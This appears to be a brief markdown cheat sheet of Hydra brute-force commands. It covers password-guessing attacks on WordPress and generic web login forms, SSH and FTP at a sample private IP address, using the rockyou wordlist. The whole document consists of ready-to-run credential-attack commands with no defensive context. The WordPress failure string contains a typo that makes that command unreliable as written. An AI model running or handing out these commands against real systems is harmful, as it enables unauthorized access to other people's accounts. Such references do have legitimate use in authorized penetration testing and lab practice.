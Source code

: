 ### Hydra Bruteforcing Commands

#### Post Web Form
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30
```
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
#### SSH
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh -vv -t 4
```
#### FTP
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.1
```
